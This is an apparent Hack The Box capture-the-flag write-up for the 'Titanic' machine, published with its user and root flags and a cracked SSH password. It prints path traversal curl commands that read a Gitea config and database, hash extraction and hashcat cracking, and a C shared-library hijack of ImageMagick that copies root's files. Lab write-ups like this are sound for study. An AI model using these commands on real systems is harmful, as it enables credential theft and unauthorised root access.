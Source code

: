 ```yaml
---
title: Titanic
date: 2025-06-26 17:26:00 +0100
categories: [ctf, htb]
tags: [web, linux, gitea, docker] 
image: https://res.cloudinary.com/djo6idowf/image/upload/v1750954843/image_ihbgb3.png
---
```

[Titanic](https://app.hackthebox.com/machines/Titanic) is an Easy machine released on 15th February 2025 on Hack The Box.

User Flag: `3ad0f6ac29b0bd200f26357b50c60fd9`

Root Flag: `9fac61210e9fc964e61fd42f547290a9`

## Write-up

Starting off with a classic scan of the target for open ports.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954901/image_o8qba8.png)

Add the host to `/etc/hosts` for ease of access.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954904/image_bs7xzc.png)

From the scan we can see that port 80 is open, which means there is a web server of some sort. So the first thing we need to do is have a look and see what we are dealing with.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954915/image_tbrqp7.png)

It's a cruise booking site. Let's try and book a ticket with Burp up to capture the traffic.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954918/image_y7gqek.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954924/image_zrwo4f.png)

You can see that it looks for a file directly which we can hopefully exploit and ask it to read a file for us.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954927/image_fxbf4z.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954930/image_qlkj8q.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954933/image_cyckma.png)

Notice that this one has a directory and a logon. This is a big clue that says, "look here". Let's send the exploit request to the repeater and have a look.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954937/image_bgz9p1.png)

Okay so we've done everything we can on here - now we need to look for the root flag. We can check `/etc/hosts` as the first host was not obvious, perhaps there is another site we can explore.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954940/image_rki3kz.png)

Great, so we have a dev environment `dev.titanic.htb`. Perfect, let's add it to our hosts and have a look.

`sudo nano /etc/hosts`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954943/image_rs6p0w.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954946/image_rh0aex.png)

When you press the explore button you go straight to the GitHub repository that contains config files. We can then have a look around and see if we can get any useful information.

`http://dev.titanic.htb/explore/repos`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954949/image_tbnncm.png)

And that's a database password - because they haven't used environment variables, so the password is just right there in the repository for us to find. This port was not open on our scan though, so I guess we don't log in that way. It is, however, worth making a note of the credentials anyway.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954951/image_x1czjc.png)

`curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954954/image_kqpv00.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954957/image_ovvqth.png)

We can see from the output that the database has a path. Let's go back to Burp and see if we can read the database file in the path that we found - `/data/gitea/gitea.db` .

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954961/image_inkmts.png)

`curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db`

`" -o gitea.db`

Save the database locally with the above command so that we can use the `snoop around in the .db` file.

`sqlite3 gitea.db`

`sqlite> .tables`

`sqlite> SELECT lower_name, passwd, salt FROM user;`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954964/image_yy56qt.png)

Great, so we have some hashes. Let's get cracking.

`hashcat -m 10900 gitea_hash.txt /usr/share/wordlists/rockyou.txt`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954967/image_eirgri.png)

Ok so from the initial attempt we can see that it's a non-standard hash type. After some digging around online, I figured that it's a `gitea`hash. That should have been obvious because that's what the database is called but we live and we learn.

You must run the script below on the hashes file which will convert the hashes to the correct format and then they can be cracked.

`https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271`

`hashcat -S -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt`

I was surprised at how long this took.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954971/image_j0j6ut.png)

However, it turns out the `developer` hash has already been cracked but I had not seen that in the output, but you can use `--show` to display cracked hashes! And then we can go ahead and login to the target with SSH.

`25282528`

`ssh developer@titanic.htb`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954975/image_tybcj1.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954978/image_c1x4xd.png)

Above is an alternative method to get the user flag. Now let's check for write and execute permissions with this user.

`find /opt -writable -type d 2>/dev/null`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954981/image_fcwka5.png)

`find / -type f -perm -u=x 2>/dev/null`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954984/image_gjx3l5.png)

There's a .sh file which is interesting - we may be able to run something here and escalate our privs.

`cd /opt/scripts/`

`cat identify_images.sh`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954993/image_gotefb.png)

Ok so the script is not that interesting except for the fact that it is pointing out a binary for us `magick`. Let's check the version and see if it's vulnerable to anything.

`/usr/bin/magick --version`

After some browsing it turns out that this version is vulnerable so we can go ahead and give this a go with the exploit below.

`https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8`

Ok so we can write to **`/opt/app/static/assets/images/` so I guess that's where we put the exploit code - we basically trick the software into thinking that our file is a share library, but it has some code that will give us the root flag.

`cd /opt/app/static/assets/images`

```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

Put the above script in `/opt/app/static/assets/images/` which is the vulnerable path. I think it's supposed to be an `.so` file. ImageMagick will process the file and then execute the command which will copy `root.txt`to the directory we are in.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750955009/image_v58roy.png)

This should then run and copy over the root.txt file to our directory. Note: this can take up to a minute or so.

`cat root.txt`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750955012/image_tcyzg6.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750955016/image_fxugvf.png)

## Thoughts

One of the more interesting boxes in the Easy category. It has a nice mix of attack vectors which is great, but possibly a tad difficult for its rating. I got stuck for quite a while on the hash part because it had been a while since I had needed to convert hashes before cracking them and I was having a lot of issues with the script. Other than that, it was good, and it had a nice linear path which meant that the number of rabbit holes you can go down is limited.

Overall, a solid challenge. I would give it a firm 6/10 - it's ok.